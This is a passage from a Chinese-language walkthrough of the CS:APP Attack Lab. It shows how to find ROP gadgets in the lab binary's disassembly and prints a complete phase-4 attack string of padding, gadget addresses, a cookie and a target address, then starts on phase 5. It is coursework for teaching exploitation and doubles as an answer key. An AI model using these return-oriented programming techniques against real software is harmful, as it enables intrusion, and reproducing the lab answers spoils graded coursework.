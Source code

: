 在setval_424中，58和c3中间的字节序列为92，既不是代表nop指令的90，也不是代表ret指令的c3，故舍弃。

因此，可选的地址有`4019ab`和`4019cc`。

* 再来看`movq %rax, %rdi`，其对应的字节序列为：

```assembly
movq %rax, %rdi => 48 89 c7
```

`48 89 c7`也出现了三次，地址分别为`4019a2`、`4019b0`以及`4019c5`：

```assembly
addval_273:
  4019a0:	8d 87 [48 89 c7] c3 	leal	-1010333368(%rdi), %eax
  4019a6:	c3 	retq

setval_237:
  4019ae:	c7 07 [48 89 c7] c7 	movl	$3351742792, (%rdi)
  4019b4:	c3 	retq

setval_426:
  4019c3:	c7 07 [48 89 c7] 90 	movl	$2428995912, (%rdi)
  4019c9:	c3 	retq
```

在setval_237中，`48 89 c7`和c3中间的字节序列为c7，既不是代表nop指令的90，也不是代表ret指令的c3，故舍弃。

从而，可选地址有`4019a2`和`4019c5`。

因此，最终的攻击字符串为：

```assembly
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 # 从两个地址中任选一个，对应popq %rax
fa 97 b9 59 00 00 00 00 # cookie
a2 19 40 00 00 00 00 00 # 从两个地址中任选一个，对应movq %rax, %rdi
ec 17 40 00 00 00 00 00 # touch2的地址
```

#### 任务五

任务描述：使用ROP攻击完成任务三。允许使用从start_farm到end_farm的所有函数。

建议：标准答案需要8个gadget（有重复）。

```assembly
mid_farm:
  4019d0:	b8 01 00 00 00 	movl	$1, %eax
  4019d5:	c3 	retq

add_xy:
  4019d6:	48 8d 04 37 	leaq	(%rdi,%rsi), %rax
  4019da:	c3 	retq

getval_481:
  4019db:	b8 【5c】 【89 c2】 90 	movl	$2428668252, %eax
  4019e0:	c3 	retq

setval_296:
  4019e1:	c7 07 99 d1 90 90 	movl	$2425409945, (%rdi)
  4019e7:	c3 	retq

addval_113:
  4019e8:	8d 87 【89 ce】 78 c9 	leal	-914829687(%rdi), %eax
  4019ee:	c3 	retq
```